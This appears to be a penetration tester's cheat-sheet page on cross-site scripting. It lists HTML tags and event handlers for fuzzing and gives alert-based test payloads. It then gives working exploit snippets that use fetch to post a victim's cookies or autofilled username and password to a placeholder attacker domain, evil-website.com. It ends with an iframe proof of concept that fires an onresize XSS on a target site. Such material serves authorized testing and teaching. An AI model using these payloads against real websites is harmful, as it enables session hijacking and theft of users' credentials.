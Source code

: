 # Cross-Site Scripting

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

<details>

<summary>All tags</summary>

```
a
a2
abbr
acronym
address
animate
animatemotion
animatetransform
applet
area
article
aside
audio
audio2
b
bdi
bdo
big
blink
blockquote
body
br
button
canvas
caption
center
cite
code
col
colgroup
command
content
custom tags
data
datalist
dd
del
details
dfn
dialog
dir
div
dl
dt
element
em
embed
fieldset
figcaption
figure
font
footer
form
frame
frameset
h1
head
header
hgroup
hr
html
i
iframe
iframe2
image
image2
image3
img
img2
input
input2
input3
input4
ins
kbd
keygen
label
legend
li
link
listing
main
map
mark
marquee
menu
menuitem
meta
meter
multicol
nav
nextid
nobr
noembed
noframes
noscript
object
ol
optgroup
option
output
p
param
picture
plaintext
pre
progress
q
rb
rp
rt
rtc
ruby
s
samp
script
section
select
set
shadow
slot
small
source
spacer
span
strike
strong
style
sub
summary
sup
svg
table
tbody
td
template
textarea
tfoot
th
thead
time
title
tr
track
tt
u
ul
var
video
video2
wbr
xmp
```

</details>

<details>

<summary>All events</summary>

```
onafterprint
onafterscriptexecute
onanimationcancel
onanimationend
onanimationiteration
onanimationstart
onauxclick
onbeforecopy
onbeforecut
onbeforeinput
onbeforeprint
onbeforescriptexecute
onbeforetoggle
onbeforeunload
onbegin
onblur
onbounce
oncanplay
oncanplaythrough
onchange
onclick
onclose
oncontextmenu
oncopy
oncuechange
oncut
ondblclick
ondrag
ondragend
ondragenter
ondragexit
ondragleave
ondragover
ondragstart
ondrop
ondurationchange
onend
onended
onerror
onfinish
onfocus
onfocusin
onfocusout
onformdata
onfullscreenchange
onhashchange
oninput
oninvalid
onkeydown
onkeypress
onkeyup
onload
onloadeddata
onloadedmetadata
onloadstart
onmessage
onmousedown
onmouseenter
onmouseleave
onmousemove
onmouseout
onmouseover
onmouseup
onmousewheel
onmozfullscreenchange
onpagehide
onpageshow
onpaste
onpause
onplay
onplaying
onpointerdown
onpointerenter
onpointerleave
onpointermove
onpointerout
onpointerover
onpointerrawupdate
onpointerup
onpopstate
onprogress
onratechange
onrepeat
onreset
onresize
onscroll
onscrollend
onsearch
onseeked
onseeking
onselect
onselectionchange
onselectstart
onshow
onstart
onsubmit
onsuspend
ontimeupdate
ontoggle
ontoggle(popover)
ontouchend
ontouchmove
ontouchstart
ontransitioncancel
ontransitionend
ontransitionrun
ontransitionstart
onunhandledrejection
onunload
onvolumechange
onwebkitanimationend
onwebkitanimationiteration
onwebkitanimationstart
onwebkittransitionend
onwheel
```

</details>

## HTML Context

```
<script>alert(document.cookie)</script>
```

```
<img src=x onerror=alert(document.cookie)>
```

## XSS Exploit

### Steal Cookie

Replace `evil-website.com` in the code with the actual domain

```
<script>
fetch("https://evil-website.com", {
  method: "POST",
  mode: "no-cors",
  body: JSON.stringify({ cookie: document.cookie }),
});
</script>
```

### Steal Password

* Only for users who have enabled autofill passwords
* Replace `evil-website.com` in the code with the actual domain

```
<input name="username" id="username" />
<input
    name="password"
    id="password"
    type="password"
    onchange="if(this.value.length); fetch('https://evil-website.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});"
/>
```

## Experiment

### `onresize` event (GET)

* You need to start an HTTP service for the victim to access
* Replace `vulnerable-website.com` in the code with the actual domain
* Replace `<xss-parameter>` in the code with the actual parameter.
* Replace `<%3Cbody%20onresize=%22print()%22%3E>` in the code with the actual payload.
  * The decoded value is x `<body onresize="print()">`

```
<br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br /><br />

<iframe
    src="https://vulnerable-website.com/?<xss-parameter>=<%3Cbody%20onresize=%22print()%22%3E>"
    onload="this.style.width='0'; this.style.height='0'"
></iframe>
```
